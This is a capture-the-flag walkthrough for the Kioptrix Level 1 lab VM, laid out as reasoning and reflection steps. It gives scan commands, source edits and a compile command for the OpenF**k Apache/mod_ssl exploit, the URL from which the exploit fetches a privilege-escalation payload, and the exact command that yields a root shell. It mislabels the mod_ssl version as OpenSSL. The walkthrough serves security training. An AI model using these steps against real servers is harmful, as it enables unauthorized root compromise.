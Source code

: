 # Kioptrix: 1.0

These are a series of challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). These games are to learn the basic tools and techniques in vulnerability assessment and exploitation.

## Action plan:

1. **Intelligence Gathering:**
    *   Use `netdiscover` to find the target machine's IP address on the network.
    *   Use `nmap` to scan for open ports and running services on the target.
2. **Vulnerability Identification:**
    *   Identify outdated Apache and OpenSSL versions from the `nmap` results.
    *   Research known exploits for these versions, leading to the "OpenSSL OpenF\*\*k Exploit."
3. **Exploit Preparation:**
    *   Download or copy the exploit code.
    *   Modify the exploit code to work with current systems:
        *   Add necessary header files (`openssl/rc4.h`, `openssl/md5.h`).
        *   Update the URL for downloading the `ptrace-kmod.c` file.
        *   Install the correct version of the `libssl-dev` library (v1.0).
        *   Update variable declarations in the code.
    *   Compile the modified exploit code using `gcc`.
4. **Exploit Execution:**
    *   Run the compiled exploit with the correct target parameters (target version, IP address, port, and connection count).
    *   The exploit establishes an SSL connection, sends shellcode, and attempts to gain root access.
5. **Verification:**
    *   Use the `whoami` command to confirm root access.

# Challenge Analysis: Kioptrix: Level 1
## 1. Intelligence Gathering

Discovering the target machine's IP address and scanning its open ports and services.

**CoT:**

1. Use `netdiscover` to find the target's IP address within the local network. This tool sends ARP requests and listens for responses to identify active hosts.
2. The output of `netdiscover` reveals the target's IP address as 192.168.1.104.
3. Then employs `nmap` with specific flags (`-sS` for SYN scan, `-A` for OS and service detection, `-n` for no DNS resolution) to perform a detailed scan of the target.
4. The `nmap` scan reveals open ports (22, 80, 111, 139, 443, 1024) and identifies running services, including Apache 1.3.20 and OpenSSL 2.8.4.

<reflection>

**Reasoning:** `netdiscover` is appropriate for local network discovery, and `nmap` is the standard tool for port and service scanning. The chosen `nmap` flags provide a comprehensive scan.

**Potential Errors:** The accuracy of `netdiscover` depends on network configuration and the target's responsiveness to ARP requests. The `nmap` scan might be affected by firewalls or intrusion detection systems.

</reflection>

## 2. Vulnerability Identification

Identifying potential vulnerabilities based on the gathered information.

**CoT:**

1. We observe that Apache 1.3.20 and OpenSSL 2.8.4 are outdated.
2. A Google search for these versions leads to the discovery of the "OpenSSL OpenF\*\*k Exploit."

<reflection>

**Reasoning:** Identifying outdated software is a crucial step in vulnerability assessment. Searching for known exploits based on version numbers is a standard practice.

**Potential Errors:** The specific exploit found might not be the only one applicable. There could be other vulnerabilities in the identified software versions or in other services running on the target.

</reflection>

## 3. Exploit Preparation

Preparing the exploit code for execution.

**CoT:**

1. We download or copy the exploit code.
2. Then modify the exploit code:
    *   Adds `#include <openssl/rc4.h>` and `#include <openssl/md5.h>`.
    *   Updates the `wget` command's URL to `http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c`.
    *   Installs `libssl1.0-dev` using `apt-get install libssl1.0-dev`.
    *   Changes `unsigned char *p, *end;` to `const unsigned char *p, *end;` on line 916.
3. Then compiles the code using `gcc -o OpenFu**k 764.c -lcrypto`.


<reflection>

**Reasoning:** Modifications are necessary to make the old exploit code compatible with modern systems and libraries. Installing the correct `libssl-dev` version is crucial for successful compilation.

**Potential Errors:** There might be other compatibility issues not addressed in the provided instructions. The compilation process could fail due to missing dependencies or incorrect compiler flags.

</reflection>

## 4. Exploit Execution

Running the compiled exploit against the target.

**CoT:**

1. We run the exploit with the command `./OpenF**k 0x6b 192.168.1.104 443 -c 40`.
    *   `0x6b` is the target identifier for Apache 1.3.20.
    *   `192.168.1.104` is the target's IP address.
    *   `443` is the target port (HTTPS).
    *   `-c 40` specifies the number of connections to open.
2. The exploit establishes an SSL connection, sends shellcode, and attempts to spawn a shell.
3. The exploit downloads and executes `ptrace-kmod.c`, which is another exploit aimed at gaining root privileges.


<reflection>

**Reasoning:** The exploit is executed with the correct parameters based on the target's information and the exploit's usage instructions. The use of `ptrace-kmod.c` suggests a multi-stage exploit to escalate privileges.

**Potential Errors:** The exploit might fail due to various reasons, such as network issues, target patching, or incorrect exploit parameters.

</reflection>

## 5. Verification

Verifying if the exploit was successful in gaining root access.

**CoT:**

1. We executes the `whoami` command within the spawned shell.
2. The output `root` confirms that the exploit successfully gained root privileges.

<reflection>

**Reasoning:** `whoami` command is a standard way to check the current user's identity. The output `root` clearly indicates successful privilege escalation.

</reflection>

